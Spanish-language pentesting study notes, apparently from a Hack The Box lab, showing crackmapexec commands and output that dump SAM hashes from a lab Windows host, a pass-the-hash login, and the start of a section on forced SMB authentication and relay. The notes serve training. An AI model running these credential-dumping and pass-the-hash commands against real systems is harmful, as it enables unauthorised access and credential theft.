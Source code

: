 Podemos extraer Hashes SAM con el comando:
```shell-session
Polika4RM@htb[/htb]$ crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\administrator:Password123! (Pwn3d!)
SMB         10.10.110.17 445    WIN7BOX  [+] Dumping SAM hashes
SMB         10.10.110.17 445    WIN7BOX  Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         10.10.110.17 445    WIN7BOX  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.110.17 445    WIN7BOX  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.110.17 445    WIN7BOX  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5717e1619e16b9179ef2e7138c749d65:::
SMB         10.10.110.17 445    WIN7BOX  jurena:1001:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
SMB         10.10.110.17 445    WIN7BOX  demouser:1002:aad3b435b51404eeaad3b435b51404ee:4c090b2a4a9a78b43510ceec3a60f90b:::
SMB         10.10.110.17 445    WIN7BOX  [+] Added 6 SAM hashes to the database
```

---
## Pass-the-Hash (PtH)
Imaginemos que tenemos el Hash de un usuario pero no podemos crackearlo. Podemos utilizar pues la técnica de Pass The Hash para autenticarnos a través del servicio SMB.

```shell-session
Polika4RM@htb[/htb]$ crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 19041 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\Administrator:2B576ACBE6BCFDA7294D6BD18041B8FE (Pwn3d!)
```

Con esto accedería a la cuenta administrador sin la necesidad de ingresar con la contraseña en texto plano.

---

## Ataques forzados de autenticación
Un ataque forzado de autenticación (authentication forcing / SMB relay / credential capture) abusa de cómo Windows resuelve nombres y cómo confía en respuestas en la red. Objetivo: **hacer que una máquina cliente envíe sus credenciales (hash NTLM) hacia un servidor controlado por el atacante**, y luego **usar ese hash** para autenticarse contra otra máquina objetivo (relay) o intentar descifrar la contraseña offline.

Podemos abusar del protocolo SMB creando un servidor SMB falso, para capturar los NetNTLM v1v2 hashes.
